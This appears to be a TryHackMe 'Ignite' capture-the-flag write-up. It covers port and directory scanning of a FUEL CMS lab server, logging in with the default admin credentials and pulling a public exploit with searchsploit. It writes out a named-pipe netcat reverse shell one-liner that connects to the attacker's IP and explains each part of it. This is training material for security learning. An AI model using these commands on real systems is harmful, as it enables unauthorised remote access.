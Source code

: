 ```yaml
---
title: TryHackMe - Ignite
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc,http, gobuster, searchsploit ]
image:
    path: /assets/img/Ignite/0.png
    alt: Ignite
---
```


# Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## gobuster

```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/Ignite/1.png)

## The site
Visiting the site i get a welcome page.  
![](/assets/img/Ignite/2.png)

In the welcome page we are redirected to another directory 
	`http://$ip/fuel`  
![](/assets/img/Ignite/3.png)  
![](/assets/img/Ignite/4.png)

login details:  
user name `admin`  
password  `admin`

![](/assets/img/Ignite/5.png)

Now we look for a vector point where we can enumerate and get something to work with.  


Navigating to `assets/upload`  
![](/assets/img/Ignite/6.png)

Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
![](/assets/img/Ignite/7.png)

Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```
![](/assets/img/Ignite/8.png)

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
![](/assets/img/Ignite/9.png)


- Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
- To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe  
Here is a link to a site that may help with understanding the commands [explain shell](https://explainshell.com/explain?cmd=rm+%2Ftmp%2Ff+%3B+mkfifo+%2Ftmp%2Ff+%3B+cat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+10.8.6.159+1337+%3E%2Ftmp%2Ff)




